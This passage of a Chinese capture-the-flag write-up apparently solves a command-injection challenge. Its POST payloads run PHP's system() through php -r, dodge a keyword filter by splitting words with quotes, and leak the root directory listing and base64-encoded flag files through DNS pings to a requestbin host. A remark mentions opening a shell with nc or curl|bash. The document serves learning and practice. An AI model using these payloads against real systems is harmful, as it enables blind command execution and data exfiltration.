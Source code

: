 拦截形同虚设，可以用"php -r"执行PHP代码。不过没有回显，需要将结果打到DNS上。

扫根目录：

```
POST：girl_friend=php -r "system('ping '.substr(implode('.',scandir('/')),6,50).'.295af172a8d3ec4abf30.d.dns.requestbin.buuoj.cn');"
```

读/flag：

```
POST：girl_friend=php -r "system('ping '.substr(system('bas""e64 /flag'),0,50).'.295af172a8d3ec4abf30.d.dns.requestbin.buuoj.cn');"
```

分两次读，解码后：

```
flag{flag-is-not-here,please-find-it-by-yourself}
```

不太对劲，要找真正的flag，在.bash_history里面看到了信息，然后再读：

```
POST：girl_friend=php -r "system('ping '.substr(system('bas""e64 /etc/demo/P3rh4ps/love/flag'),0,50).'.46418d29ca743ab417af.d.dns.requestbin.buuoj.cn');"
```

## 备注

1. 后来看题解，发现我好像非预期了，.bash_history是个意外，预期思路应该是用nc命令或者curl xxxx\|bash弹Shell，然后find一下flag。

2. 因为find命令会返回不止一行，而我的方法是利用了system()的返回，所以不太好用。当然也不是不可以，可以先将find的返回保存到变量foo中，然后echo一下\${foo}。至于"$"符号的绕过，可以先将命令base64编码，传到服务器再解码，然后重定向到bash里，Payload大概长这样：

   ```
    POST：girl_friend=php -r "system('ping '.substr(system('ec""ho YT0kKGZpbmQgLyAtbmFtZSBmbGFnKTtlY2hvICR7YToxMDoxNX18YmFzZTY0Cg==|ba""se64 -d|bash'),0,50).'.f9a0ea65a00ba5753d08.d.dns.requestbin.buuoj.cn');"
    
    YT0kKGZpbmQgLyAtbmFtZSBmbGFnKTtlY2hvICR7YToxMDoxNX18YmFzZTY0Cg== => a=$(find / -name flag);echo ${a:10:15}|base64
   ```

3. 不得不说，上面这个方法太蛋疼了，得整一个VPS工具。

----

# 简单注入

## 题目描述

上来就是个登录框，注入写到了脸上。

## 解题思路
